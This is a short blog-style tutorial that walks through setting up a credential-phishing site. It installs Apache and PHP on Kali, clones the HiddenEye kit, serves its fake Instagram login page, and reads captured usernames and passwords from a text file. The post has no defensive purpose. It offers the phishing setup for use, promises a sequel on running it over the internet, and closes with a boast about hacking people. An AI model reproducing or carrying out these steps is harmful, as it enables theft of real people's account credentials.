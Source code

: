 ```yaml
---
title: 'Social Engineering Tutorial ⚡'
date: '2023-06-07'
category: 'Guide'
tags: 'tutorial'
image_url: 'https://integrisit.com/wp-content/uploads/2022/12/social_engineering-01.png'
---
```


Social Engineering: Step-by-Step Guide
======================================

* * * * *

Step 1: Fire up Kali and install dependencies
---------------------------------------------

##### Copy and paste these commands in your terminal.

1.  `sudo apt update -y`
2.  `sudo apt install apache2 php git -y`
3.  `cd ~/Documents && git clone https://github.com/Morsmalleo/HiddenEye.git`
4.  `cd HiddenEye/WebPages/Instagram_web && touch usernames.txt`
5.  `sudo cp -r * /var/www/html`
6.  `sudo systemctl enable apache2 && sudo systemctl start apache2`

* * * * *

#### Step 2: Testing on localhost

Now head on to [localhost.](http://localhost/) Now login with a random username and password. Go to your terminal and type the following command to view the captured credentials: `sudo cat /var/www/html/usernames.txt`

* * * * *

##### Upcoming: Running the attack over the internet.

> Amateurs hack systems, professionals hack people 💀